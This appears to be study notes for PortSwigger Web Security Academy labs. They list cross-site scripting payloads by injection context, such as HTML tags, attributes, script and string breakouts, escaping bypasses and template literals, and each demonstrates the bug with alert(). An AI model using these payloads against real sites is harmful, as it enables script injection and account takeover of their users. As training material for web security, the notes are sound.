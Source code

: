 [[XSS]]
# Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```

##### Breaking out of a JavaScript string
```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

##### Bypass escaping single quotes with a backslash
For example, suppose that the input:
`';alert(document.domain)//`

gets converted to:
`\';alert(document.domain)//`

You can now use the alternative payload:
`\';alert(document.domain)//`

which gets converted to:
`\\';alert(document.domain)//`

##### WAF blocks some characters
https://portswigger.net/research/xss-without-parentheses-and-semi-colons
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked
##### Making use of HTML-encoding
Context:
```html
<a href="#" onclick="... var input='controllable data here'; ...">
```
payload:
```html
&apos;-alert(document.domain)-&apos;
```

##### XSS in JavaScript template literals
Example:
```html
<script> ... var input = `controllable data here`; ... </script>
```
payload:
```js
${alert(document.domain)}
```
